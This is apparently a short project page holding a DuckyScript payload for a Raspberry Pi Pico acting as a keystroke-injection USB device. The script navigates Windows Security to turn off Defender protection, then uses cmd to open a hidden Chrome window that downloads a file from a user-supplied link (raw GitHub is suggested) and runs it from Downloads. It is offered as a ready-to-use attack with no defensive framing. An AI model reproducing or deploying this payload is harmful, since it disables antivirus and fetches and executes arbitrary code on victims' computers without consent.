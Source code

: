 # Download-Execute (MADE IN DUCKYSCRIPT)
Designed For The Raspberry Pi Pico
Disables Windows Defender And Downloads Files From Google &amp; Executes Them

Make Sure When Putting It In Your Raspberry Pi Pico To Replace The .txt With .dd!
```
DELAY 1000
REM windows security
CTRL ESC
DELAY 600
STRING windows security
DELAY 300
ENTER
DELAY 1000
ENTER
TAB
TAB
TAB
TAB
DELAY 300
ENTER
DELAY 600
SPACE
DELAY 600
LEFT
ENTER
DELAY 300
CTRL ESC
DELAY 300
REM hash
DELAY 300
STRING cmd
DELAY 300
ENTER
DELAY 300
STRING start chrome -w hidden YOUR FILE LINK (WE Recommend using Github Raw.)
DELAY 300
ENTER
DELAY 600
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
ENTER
DELAY 300
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 300
ENTER
DELAY 300
TAB
DELAY 100
ENTER
DELAY 300
GUI r
DELAY 300
STRING cmd
DELAY 300
ENTER
DELAY 300
STRING cd Downloads
DELAY 300
ENTER
DELAY 300
STRING Name Of The File
DELAY 300
ENTER
```
